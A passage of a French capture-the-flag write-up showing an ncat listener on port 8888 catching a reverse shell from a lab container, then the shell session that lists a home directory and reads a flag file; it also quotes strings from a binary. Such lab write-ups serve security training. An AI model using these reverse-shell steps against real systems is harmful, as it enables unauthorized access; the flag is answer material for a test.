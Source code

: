 ```plain
Remember 'PATIENCE' is the KEYs 
Ahh! Come On!...s 
Let's try AGAIN!!!!s 
Press Enter! N( 
Falset 
completet 
usert 
raw_inputt 
usernamet 
passwordt
```

Ok donc une machine doit tenter d'établir un reverse shell sur les adresses mentionnées. Nous on est actuellement sur 172.18.0.3 donc il faut rapatrier [un Ncat static](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/ncat) puis écouter sur le port 8888 :  

```plain
$ ncat -v -l -p 8888 
Ncat: Version 6.49BETA1 ( http://nmap.org/ncat ) 
Ncat: Listening on :::8888 
Ncat: Listening on 0.0.0.0:8888 
Ncat: Connection from 172.18.0.1. 
Ncat: Connection from 172.18.0.1:40102. 
id 
uid=1001(docksec) gid=1001(docksec) groups=1001(docksec) 
/home/docksec> ls -al 
total 52 
drwxr-xr-x 7 docksec docksec 4096 Jul 30  2020 . 
drwxr-xr-x 4 root    root    4096 Jul 28  2020 .. 
-rw------- 1 docksec docksec 1045 Jul 30  2020 .bash_history 
-rw-r--r-- 1 docksec docksec  220 Jul 28  2020 .bash_logout 
-rw-r--r-- 1 docksec docksec 3771 Jul 28  2020 .bashrc 
drwx------ 2 docksec docksec 4096 Jul 29  2020 .cache 
drwx------ 3 docksec docksec 4096 Jul 29  2020 .gnupg 
drwxrwxr-x 3 docksec docksec 4096 Jul 28  2020 .local 
-rw-r--r-- 1 docksec docksec  807 Jul 28  2020 .profile 
drwx------ 2 docksec docksec 4096 Jul 29  2020 .secret 
-rw-rw-r-- 1 docksec docksec   66 Jul 29  2020 .selected_editor 
drwx------ 2 docksec docksec 4096 Jul 29  2020 .ssh 
-r-------- 1 docksec docksec  318 Jul 28  2020 user1.txt 
/home/docksec> cat user1.txt 
 _______ __   __ ___ ___     _______  
|       |  |_|  |   |   |   |       | 
|  _____|       |   |   |   |    ___| 
| |_____|       |   |   |   |   |___  
|_____  |       |   |   |___|    ___| 
 _____| | ||_|| |   |       |   |___  
|_______|_|   |_|___|_______|_______| 

FLAG{DASDGFGPXLCKDEG5D7635CSDAFDIMMJDSUWEQDSADIG}
```
